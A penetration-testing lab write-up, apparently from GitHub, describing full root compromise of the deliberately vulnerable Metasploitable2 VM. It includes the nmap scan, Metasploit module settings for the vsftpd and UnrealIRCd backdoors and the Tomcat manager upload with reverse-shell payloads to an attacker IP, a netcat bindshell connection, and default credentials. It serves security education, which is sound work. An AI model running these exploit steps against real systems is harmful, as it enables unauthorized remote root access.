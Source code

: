 
# 💥 Metasploitable2 - Full Exploitation Writeup

> ⚠️ **Disclaimer**
>
> This report documents activities performed in a **controlled, legal lab environment** using intentionally vulnerable machines (e.g., Metasploitable2, HackTheBox).
>
> All tests and exploits were executed on systems I own or have explicit permission to interact with.
>
> **Never perform security testing or exploitation on systems you do not own or have written permission to assess.**
>
> Unauthorized access is illegal and unethical. This content is intended strictly for educational and lawful purposes only.

## 📌 Target Info
- **IP:** 192.168.11.252
- **OS:** Linux (Ubuntu)
- **Method:** Internal lab environment (VirtualBox, bridged adapter)

---

## 🧭 Enumeration

### 🔍 Nmap Scan

**Command:**
```bash
nmap -sC -sV -oN metasploitable-scan.txt 192.168.11.252
```

**Key Findings:**
- `FTP (21)` — vsftpd 2.3.4 (backdoored)
- `Telnet (23)`, `SSH (22)`
- `Apache (80, 8180)`, `Tomcat Manager`
- `SMB (139, 445)`, `MySQL (3306)`, `PostgreSQL (5432)`
- `IRC (6667)` — UnrealIRCd (backdoor)
- `Bindshell (1524)` — confirmed open and usable

---

## 💣 Exploitation

### ✅ 1. FTP — vsftpd 2.3.4 Backdoor

**Tool:**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.11.252
run
```

**Result:** Remote root shell obtained instantly.

---

### ✅ 2. Port 1524 — Bindshell

**Command:**
```bash
nc 192.168.11.252 1524
```

**Result:** Immediate root shell — no authentication needed.

---

### ✅ 3. IRC — UnrealIRCd Backdoor

**Tool:**
```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.11.252
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.10.172 (My kali IP)
run
```

**Result:** Reverse shell returned as `root`.

---

### ✅ 4. Tomcat Manager (8180)

**Accessed:** `http://192.168.11.252:8180/manager/html`

**Creds Used:** `tomcat:tomcat` (default)

**Tool:**
```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOST 192.168.11.252
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST 192.168.10.172 (My kali IP)
run
```

**Result:** Reverse WAR shell deployed successfully.

---

## 🧪 Additional Entry Points Identified (Not Exploited)

- **SMB (139/445)** — Samba 3.0.20
- **MySQL (3306)** — MySQL 5.0.51a (no brute-force attempted)
- **PostgreSQL (5432)** — Version 8.3.7
- **Apache Web (Port 80)** — Potential hidden apps like DVWA, Mutillidae, phpMyAdmin
- **VNC (5900)** — Protocol 3.3 (not tested for null auth)
- **NFS / RPC Services** — Mountd/nlockmgr (seen in `rpcinfo`)

---

## 🔐 Credentials Used

- FTP: `anonymous`
- Tomcat: `tomcat:tomcat`

---

## 🧠 Lessons Learned

- Proper version enumeration reveals multiple paths to root
- Classic CVEs like vsftpd/UnrealIRCd still work in vulnerable setups
- Multiple services = multiple shells = total compromise
- Enumeration is more powerful than brute force

---

## 🧰 Tools Used

- `nmap`
- `msfconsole`
- `nc`
- `ftp`

---

## ✅ Outcome

The target system was fully compromised with multiple confirmed root-level access vectors. Several additional vulnerable services were discovered, representing additional attack surface.

---

**Author:** Esteban BREA HELL  
**GitHub:** [github.com/EstebanBreaHell](https://github.com/EstebanBreaHell)
